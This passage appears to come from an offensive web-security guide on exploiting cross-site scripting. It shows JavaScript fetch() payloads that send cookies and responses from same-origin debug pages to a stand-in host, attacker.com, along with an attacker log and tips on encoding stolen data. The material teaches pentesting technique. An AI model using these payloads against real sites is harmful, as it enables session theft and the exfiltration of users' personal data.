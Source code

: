 ```javascript
fetch("http://attacker.com/leak?cookie=" + document.cookie)
```

Pretty often, however, modern frameworks will set the `httpOnly` flag on cookies which means they will **not** be available for JavaScript, only when making HTTP requests. This `document.cookie` variable will simply not contain the cookie that the flag is on, meaning it cannot be exfiltrated directly. But the possibilities do not end here, as you can still **make requests** using the cookies from within JavaScript, just not directly read them.&#x20;

{% hint style="warning" %}
In very restricted scenarios you might not be able to make an outbound connection due to the `connect-src` [#content-security-policy-csp](./#content-security-policy-csp "mention") directive. See that chapter for ideas on how to still exfiltrate data
{% endhint %}

### Forcing requests - `fetch()`

When making a `fetch()` request to the same domain you are on, cookies are _included_, even if `httpOnly` is set. This opens up many possibilities by requesting data and performing actions on the application. When making a request, the response is also readable because of the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy), as we are on the same site as the request is going to.

One idea to still steal cookies would be to request a page that responds with the cookie information in some way, like a debug or error page. You can then request this via JavaScript `fetch()` and exfiltrate the response:

{% code title="Payload" %}
```javascript
fetch("http://target.com/debug")  // Perform request
    .then(res => res.text())      // Read response as text
    .then(res => fetch("http://attacker.com/leak?" + res));
```
{% endcode %}

{% code title="Logs of attacker.com" %}
```log
"GET /leak?session=... HTTP/1.1" 404 -
```
{% endcode %}

{% hint style="info" %}
**Tip**: For more complex data, you can use `btoa(res)` to Base64 encode the data which makes sure no special characters are included, which you can later decode
{% endhint %}

A more common way of exploitation is by requesting personal data from a settings page or API route, which works in a very similar way as shown above.

#### Performing actions

Performing actions on the victim's behalf can is also common and can result in a high impact, depending on their capabilities. These are often done using POST requests and may contain extra data or special headers. Luckily, [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) allows us to do all that and more! Its second argument contains `options` with keys like `method:`, `headers:`, and `body:` just to name a few:
